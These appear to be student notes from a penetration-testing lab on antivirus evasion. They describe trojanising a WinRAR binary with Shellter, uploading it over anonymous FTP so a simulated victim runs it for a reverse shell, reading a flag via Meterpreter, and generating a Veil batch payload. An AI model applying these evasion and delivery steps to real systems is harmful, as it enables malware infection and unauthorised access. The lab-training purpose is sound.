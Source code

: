 
###### 17.3.5.5
In this exercise, you'll be facing off against **COMODO** antivirus engine running on VM #1.  
Use another popular 32-bit application, like Putty, to replicate the steps learned so far in order to inject malicious code in the binary with Shellter.  
The victim machine runs an anonymous FTP server with open read/write permissions. Every few seconds, the victim user will double-click on any existing **.exe** Windows PE file(s) in the FTP root directory.  
If the antivirus flags the script as malicious, the script will be quarantined and then deleted. Otherwise, the script will execute and, hopefully, grant you a reverse shell.  
**NOTE:** set the FTP session as _active_ and enable _binary_ encoding while transferring the file.  
  
  
Using WinRAR.exe from the chapter.  
  
Use default user: anonymous. No pw.  
  
**passive..... Prevents entering Extended Passive Mode when attempting to upload binary

```bash
ftp <vic_ip>  
	Connected to 192.168.224.53.  
	220 Microsoft FTP Service  
	Name (192.168.224.53:kali): Anonymous  
	331 Anonymous access allowed, send identity (e-mail name) as password.  
	Password:   
	230 User logged in.  
	Remote system type is Windows_NT.  
ftp> passive  
	Passive mode: off; fallback to active mode: off.  
ftp> bin  
	200 Type set to I.  
ftp> put winrar-x32-611.exe   
	local: winrar-x32-611.exe remote: winrar-x32-611.exe  
	200 EPRT command successful.  
	150 Opening BINARY mode data connection.
	100% |*****************************************************|  3140 KiB  579.11 KiB/s    00:00 ETA  
	226 Transfer complete.  
	3215872 bytes sent in 00:05 (569.71 KiB/s)
```

In [**Meterpreter**](Meterpreter.md) session:
```bash
cat C:\\Users\\Administrator\\Desktop\\flag.txt
```


###### 17.3.5.6
Similar to the previous exercise, you'll be facing off against **COMODO** antivirus engine v12.2.2.8012 on VM #2.  
  
Although the PowerShell AV bypass we covered in this module is substantial, it has an inherent limitation:  
The malicious script cannot be "double-clicked" by the user for an immediate execution. Instead, it would open in **notepad.exe** or another default text editor.  
  
The tradecraft of manually weaponizing PowerShell scripts is beyond the scope of this module, but we can rely on another open-source framework to help us automate this process.  
Research how to install and use the [Veil](https://github.com/Veil-Framework/Veil) framework to help you with this challenge.  
The victim machine runs an anonymous FTP server with open read/write permissions.  
Every few seconds, the victim user will double-clck on any existing **.bat** Windows batchscript file(s) in the FTP root directory.  
If the antivirus flags the script as malicious, the script will be quarantined and then deleted. Otherwise, the script will execute and, hopefully, grant you a reverse shell

[**Veil**](Veil.md):
![[veil.png]]

list:
![[veil1.png]]
![[veil2.png]]
![[veil3.png]]

Payload is saved to:
```bash
/var/lib/veil/output/source/payload.bat
```